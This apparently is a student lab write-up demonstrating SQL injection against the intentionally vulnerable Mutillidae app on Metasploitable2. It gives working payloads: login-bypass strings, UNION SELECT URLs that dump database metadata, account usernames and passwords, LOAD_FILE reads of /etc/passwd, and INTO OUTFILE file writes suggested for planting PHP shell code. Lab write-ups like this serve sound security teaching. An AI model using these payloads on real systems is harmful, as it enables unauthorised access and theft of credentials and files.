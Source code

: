 ![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/259d1b35-1476-4252-a115-f88477970546)# sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/ce267eca-0fb0-4769-a4c1-28ef3874e907)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. Screenshot 2023-06-10 213747
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/347e2b79-0f9e-497b-938f-18225cc41356)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/f93dbdcb-a65f-49de-b9f1-2801e923f739)

Click on the menu Login/Register and register for an account
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/ab9ec622-50da-448e-9c20-d7c4f6a726bf)

Click on the link “Please register here
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/7df27d6d-2a3c-4856-8d63-215abc8cc2d9)

Click on “Create Account” to display the following page:
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/37af75ae-f710-411a-9073-6d4577dcae2f)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/ded07f23-c3c3-4afb-924e-f8e9a399811f)

Click “Login”. The logged in page will show as below
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/8d46d742-d27b-4d4c-88bd-face5cd756bb)

##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/857c32da-491b-4735-9277-97147979b9c7)

Click the login button and you will see it enter into the administrator page.
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/9bd9a613-6686-4a23-9291-77a5587b5b8e)

## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below: img
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/83c2cc83-a3f5-4864-9065-0a3426c3bcf5)

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/98fdd17e-d336-414b-82c4-498a7f363f9e)

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/4ffb740d-75ff-4a7a-99fd-32f6f3659f9c)

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/e81d6411-a036-495a-bf53-b48dc86ec659)

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/cc9bb709-e05c-4aa2-9d92-ba60fff73fce)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned. 
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/3c3f508d-fc31-4bb4-8aa4-534eb68e293b)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/f51f6d24-b173-4beb-84fa-ff998120acbb)

After adding the order by 6 into the existing url , the following error statement will be obtained
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/2775edc4-0acf-4f28-82c8-6aa6baee62c9)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6. 
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/96a104c2-7217-44d7-ba86-b9d0eea8bfc2)

As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/8c09ba9e-3e99-4258-a59a-eb062b6419c7)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/48258dc8-3682-4559-b5b7-6e898be15877)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information. 
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/b61f8174-f8a9-4c45-b79f-0a171d6927aa)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/70be5b5a-20eb-4a3a-9a74-9e1f35d4dfd0)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/6f0fc511-74aa-46c4-8aa6-c419ef2255cb)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/330dca50-b77d-4781-ac3d-5a460ee73dd5)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/9644e75f-0adf-4e04-a2a0-1a2c8c3c9fa5)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/a759dd2e-4fb1-4863-b5cf-fceba00fde1a)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.
Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/bf03d303-fd61-49e8-9cf8-c1f163d6ba92)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
